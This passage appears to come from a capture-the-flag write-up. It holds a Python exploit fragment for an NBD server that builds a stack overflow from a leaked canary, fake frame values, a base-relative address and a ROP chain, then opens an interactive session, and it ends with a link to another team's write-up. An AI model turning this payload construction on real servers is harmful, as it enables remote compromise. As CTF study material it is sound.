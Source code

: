 ```python
for p in range(8):
  payload += p8(canary[p])

payload += p64(0xdeadbeef00)
payload += p64(0xdeadbeef01)
payload += p64(512)
payload += p64(base + 0x12DA8)
payload += p64(4)
payload += p64(0xdeadbeef05)
payload += p64(0xdeadbeef06)
payload += rop_chain

payload += b"D" * (length-4-len(payload))

namelen  = length

send_request(NBD_OPT_GO, length, namelen, payload, io)

header = p64(opts_magic, endian="big") + \
    p32(NBD_OPT_GO, endian="big") + p32(0, endian="big")

io.send(header)
io.send(p32(0, endian="big"))
io.send(p32(0, endian="big"))

io.interactive()
```

# Others writeup
https://r3kapig.com/writeup/20220125-rwctf4/

